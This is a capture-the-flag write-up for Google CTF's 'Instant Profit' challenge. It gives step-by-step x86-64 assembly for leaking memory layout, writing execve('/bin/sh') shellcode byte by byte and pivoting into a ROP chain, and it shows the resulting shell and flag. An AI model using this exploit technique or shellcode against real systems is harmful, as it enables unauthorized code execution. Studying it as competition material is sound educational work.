




# Instant Profit

## Question Text

Please help test our new compiler micro-service

Challenge running at inst-prof.ctfcompetition.com:1337

* [inst_prof](https://capturetheflag.withgoogle.com/attachment/a3c63f9209a795d628bfff2c3d7a7293adfe81374e4375c1e29e47833b2b6317)

## Program Flow

The program is very straightforward. First, a page is mmap'd. then the
template function is copied to the start of the page. Read is called to
overwrite the four NOPs in the allocated page with user data. The allocated
page is mprotect'd to be executable. The allocated page is
then called. After it returns the allocated page is munmap'd.

## Solving

### First thoughts

When our buffer is executed, it runs in a loop 0x1000 times. RDI points to
our buffer and RSI is 0x1000. If we call read_n to read 0x1000 bytes into
our executable buffer, instant profit!

#### SEGFAULT

Turns out make_page executable sets the page to be readable and executable,
but no longer writeable. The process segfaults trying to read in the first
byte.

### Second thoughts

Crap! Ok, looks like we'll have to write a buffer somewhere fixed then jump
to it later.
<pre>
$ cat /proc/$(pidof inst_prof)/maps
564d85d04000-564d85d05000 r-xp 00000000 08:04 280187                     /home/user/google-ctf/inst_prof
564d85f05000-564d85f06000 r--p 00001000 08:04 280187                     /home/user/google-ctf/inst_prof
564d85f06000-564d85f07000 rw-p 00002000 08:04 280187                     /home/user/google-ctf/inst_prof
7f80d4882000-7f80d4a41000 r-xp 00000000 08:02 1088604                    /lib/x86_64-linux-gnu/libc-2.23.so
7f80d4a41000-7f80d4c41000 ---p 001bf000 08:02 1088604                    /lib/x86_64-linux-gnu/libc-2.23.so
7f80d4c41000-7f80d4c45000 r--p 001bf000 08:02 1088604                    /lib/x86_64-linux-gnu/libc-2.23.so
7f80d4c45000-7f80d4c47000 rw-p 001c3000 08:02 1088604                    /lib/x86_64-linux-gnu/libc-2.23.so
7f80d4c47000-7f80d4c4b000 rw-p 00000000 00:00 0 
7f80d4c4b000-7f80d4c71000 r-xp 00000000 08:02 1088605                    /lib/x86_64-linux-gnu/ld-2.23.so
7f80d4e46000-7f80d4e49000 rw-p 00000000 00:00 0 
7f80d4e6d000-7f80d4e6e000 r-xp 00000000 00:00 0 
7f80d4e6e000-7f80d4e70000 rw-p 00000000 00:00 0 
7f80d4e70000-7f80d4e71000 r--p 00025000 08:02 1088605                    /lib/x86_64-linux-gnu/ld-2.23.so
7f80d4e71000-7f80d4e72000 rw-p 00026000 08:02 1088605                    /lib/x86_64-linux-gnu/ld-2.23.so
7f80d4e72000-7f80d4e73000 rw-p 00000000 00:00 0 
7ffe331f4000-7ffe33215000 rw-p 00000000 00:00 0                          [stack]
7ffe33247000-7ffe33249000 r--p 00000000 00:00 0                          [vvar]
7ffe33249000-7ffe3324b000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
</pre>

There is a rw mapping from the binary available to us. Hope it's at a fixed
offset from the main binary! We can save off the return address from [rsp].
After rigorous testing we determine that the only registers that
remain unaffected between calls is r13, r14, and r15.
<pre>
mov  r14, [rsp]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x2e]
mov r14, r13
ret
</pre>
This awful assembly gives us the base of the text segment. Now comes the
math to get to the rw segment.
<pre>
add r14, 0x70
add r14, 0x70
add r14, 0x70
add r14, 0x70
add r14, 0x42
</pre>
Remember that each of these instructions is executed 0x1000 times. Now that
we have the base of that mapping, let's write our shellcode into it
<pre>
mov byte [r14], 0x6a
inc r14
ret
mov byte [r14], 0x68
inc r14
ret
mov byte [r14], 0x48
inc r14
ret
mov byte [r14], 0xb8
inc r14
ret
mov byte [r14], 0x2f
inc r14
ret
mov byte [r14], 0x62
inc r14
ret
mov byte [r14], 0x69
inc r14
ret
mov byte [r14], 0x6e
inc r14
ret
mov byte [r14], 0x2f
inc r14
ret
mov byte [r14], 0x2f
inc r14
ret
mov byte [r14], 0x2f
inc r14
ret
mov byte [r14], 0x73
inc r14
ret
mov byte [r14], 0x50
inc r14
ret
mov byte [r14], 0x48
inc r14
ret
mov byte [r14], 0x89
inc r14
ret
mov byte [r14], 0xe7
inc r14
ret
mov byte [r14], 0x68
inc r14
ret
mov byte [r14], 0x72
inc r14
ret
mov byte [r14], 0x69
inc r14
ret
mov byte [r14], 0x1
inc r14
ret
mov byte [r14], 0x1
inc r14
ret
mov byte [r14], 0x81
inc r14
ret
mov byte [r14], 0x34
inc r14
ret
mov byte [r14], 0x24
inc r14
ret
mov byte [r14], 0x1
inc r14
ret
mov byte [r14], 0x1
inc r14
ret
mov byte [r14], 0x1
inc r14
ret
mov byte [r14], 0x1
inc r14
ret
mov byte [r14], 0x31
inc r14
ret
mov byte [r14], 0xf6
inc r14
ret
mov byte [r14], 0x56
inc r14
ret
mov byte [r14], 0x6a
inc r14
ret
mov byte [r14], 0x8
inc r14
ret
mov byte [r14], 0x5e
inc r14
ret
mov byte [r14], 0x48
inc r14
ret
mov byte [r14], 0x1
inc r14
ret
mov byte [r14], 0xe6
inc r14
ret
mov byte [r14], 0x56
inc r14
ret
mov byte [r14], 0x48
inc r14
ret
mov byte [r14], 0x89
inc r14
ret
mov byte [r14], 0xe6
inc r14
ret
mov byte [r14], 0x31
inc r14
ret
mov byte [r14], 0xd2
inc r14
ret
mov byte [r14], 0x6a
inc r14
ret
mov byte [r14], 0x3b
inc r14
ret
mov byte [r14], 0x58
inc r14
ret
mov byte [r14], 0xf
inc r14
ret
mov byte [r14], 0x5
</pre>
Alright, looks good.

#### Segfault! What!?!?

Apparently, whatever this mapping is, it is used for something somewhere.
Oh well, time to adjust where we're writing our shellcode.

<pre>
lea r15, [r14+0x7f]
lea r14, [r15+0x7f]
lea r15, [r14+0x7f]
lea r14, [r15+0x7f]
lea r15, [r14+0x7f]
lea r14, [r15+0x7f]
lea r15, [r14+0x7f]
lea r14, [r15+0x7f]
lea r15, [r14+0x7f]
lea r14, [r15+0x7f]
</pre>

There we go, we'll start writing *after* where the problem triggered
before. B-e-a-utiful.

### Shellcode's in memory, almost done, right?

Now all we have to do is make the page executable. Of course the first
thing to try is to try to somehow put 7 into rdx AND put our saved address
into rdi then call mmap, but of course this is impossible to do in only
four bytes.

### Isn't there a function already for this?

Our shellcode isn't self-modifying so it doesn't matter if the buffer is no
longer writable. Time to get a pointer to the make_page_executable
function.

<pre>
lea r14, [r13-0x7f]
lea r15, [r14-0x7f]
lea r14, [r15-0x80]
lea r15, [r14-0x7f]
lea r14, [r15-0x7f]
lea r15, [r14-0x7f]
lea r14, [r15-0x7f]
lea r15, [r14-0x7f]
lea r14, [r15-0x7f]
lea r15, [r14-0x7f]
lea r14, [r15-0x7f]
lea r15, [r14-0x6a]
add r15, 0x1
</pre>
r15 now has the pointer to make_page_executable. Great, now we're cooking!

...Wait, how can I set rdi to our shellcode (saved off in r14) AND call
make_page_executable in r15 in four bytes or less? Spoiler alert: it can't
be done.

### Time to ROP

When all else fails, ROP! It would be quite a pain to try to write our rop
chain to another rw mapping in memory (since we're going to make the
mapping in our shellcode buffer no longer writable and our shellcode uses
the stack), so we're just going to reuse some stack space.
<pre>
mov r15, rsp
ret
mov [r15+0x60], r13
mov [r15+0x58], r14
lea rsp, [r15+0x50]
</pre>
This triggers the ROP to pop rdi (the page start of where our shellcode
is), ret to make_page_executable, then ret to our shellcode where we get an
interactive shell.

### Great! It works locally, let's try it remote!

Sadly unsurprisingly, it doesn't work remotely. Maybe the section mapping
offset is different on a different machine, who knows? I hate when this
happens, which is nearly always. Well, let's try running it locally with
pwntools process() instead of gdb.debug().
<pre>
[*] Process './inst_prof' stopped with exit code -5 (SIGTRAP) (pid 21786)
</pre>
D'oh! Let's try deleting/commenting our debug lines
<pre>
;int3
;ret
;ret
;ret
</pre>

## It works!

<pre>
$ ls
flag.txt
inst_prof
$ cat flag.txt
CTF{0v3r_4ND_0v3r_4ND_0v3r_4ND_0v3r}
$ pwd
/home/user
$ id
uid=1337(user) gid=1337(user) groups=1337(user)
</pre>

